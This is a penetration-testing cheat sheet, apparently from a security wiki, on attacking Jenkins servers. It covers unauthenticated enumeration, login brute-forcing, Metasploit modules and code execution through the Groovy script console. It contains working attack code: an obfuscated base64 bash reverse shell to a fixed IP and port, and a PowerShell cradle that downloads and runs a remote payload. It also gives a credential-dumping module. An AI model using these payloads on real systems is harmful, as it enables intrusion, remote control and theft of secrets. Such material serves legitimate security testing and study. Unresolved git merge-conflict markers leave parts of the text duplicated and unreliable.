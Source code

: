 # Jenkins

## Enumeration

In order to search for interesting Jenkins pages without authentication like (_/people_ or _/asynchPeople_, this lists the current users) you can use:

```
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path or _**/securityRealm/user/admin/search/index?q=**_ for **usernames**.

You may be able to get the Jenkins version from the path_** /oops **_or _**/error**_

![](<../../.gitbook/assets/image (415).png>)

## Login

You will be able to find Jenkins instances that **allow you to create an account and login inside of it. As simple as that.**\
****Also if **SSO** **functionality**/**plugins** were present then you should attempt to **log-in **to the application using a test account (i.e., a test **Github/Bitbucket account**). Trick from [**here**](https://emtunc.org/blog/01/2018/research-misconfigured-jenkins-servers/).

### Bruteforce

**Jekins **does **not **implement any **password policy **or username **brute-force mitigation**. Then, you **should **always try to** brute-force** users because probably** weak passwords** are being used (even **usernames as passwords** or **reverse **usernames as passwords).

```
msf> use auxiliary/scanner/http/jenkins_login
```

## Known Vulnerabilities

{% embed url="https://github.com/gquere/pwn_jenkins" %}

<<<<<<< HEAD
{% embed url="https://github.com/gquere/pwn\_jenkins" caption="" %}
=======
### Extract Secrets

In the same repo mentioned before you can find tools to f**ind cleartext secrets from builds and also from Groovy**.

You can also find a tool for **password spraying**.
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

## Code Execution

There are 3 ways to get **code execution** with Jenkins.

### **Create a new project**

This method is very noisy because you have to create a hole new project (obviously this will only work if you user is allowed to create a new project).

1. Create a new project (Freestyle project)
2. Inside **Build** section set **Execute shell** and paste a powershell Empire launcher or a meterpreter powershell (can be obtained using _unicorn_). Start the payload with _PowerShell.exe_ instead using _powershell._
3. Click **Build now**

****

Go to the projects and check **if you can configure any** of them (look for the "Configure button"):

![](<../../.gitbook/assets/image (158).png>)

Or **try to access to the path **_**/configure**_ in each project (example: /_me/my-views/view/all/job/Project0/configure_).

If you are allowed to configure the project you can **make it execute commands when a build is successful**:

![](<../../.gitbook/assets/image (159).png>)

Click on **Save **and **build **the project and your **command will be executed**.\
If you are not executing a reverse shell but a simple command you can **see the output of the command inside the output of the build**.

### **Execute Groovy script**

Best way. Less noisy.

1. Go to _path_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

<<<<<<< HEAD
In **linux** you can do: **`"ls /".execute().text`**
=======
In **linux **you can do:  **`"ls /".execute().text`**
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ (triple double quotes) to execute the payload.

**Another useful groovy script **is (replace \[INSERT COMMAND]):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in linux

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF exploit

You can use MSF to get a reverse shell:

```
msf> use exploit/multi/http/jenkins_script_console
```

## POST

Dump Jenkins credentials using:

```
msf> post/multi/gather/jenkins_gather
```

## References

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/" caption="" %}

<<<<<<< HEAD
{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" caption="" %}

=======
{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" %}
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
